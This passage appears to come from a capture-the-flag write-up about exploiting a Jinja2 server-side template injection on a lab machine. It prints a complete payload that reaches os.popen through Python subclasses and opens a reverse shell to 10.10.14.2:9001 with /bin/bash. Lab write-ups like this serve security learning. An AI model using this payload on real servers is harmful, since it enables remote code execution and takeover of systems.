 ![80 SSTI Test](screenshots/80_doctors_ssti_2.png)

Based on the results and some more testing, it seems we had the Jinja templating library. Luckily, there is a [HackTricks section on Jinja](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) with some useful payloads. I tried a couple of the payloads, such as reading files. But they kept crashing the server and making it reutrn a 500 error. When this happened, I had to make a new account. After some trial and error, I got a RCE payload to work - the payload uses the `subprocess` module to open a shell. I got this from the HackTricks article, but had to modify the `subprocess` call.

```none
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.2\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

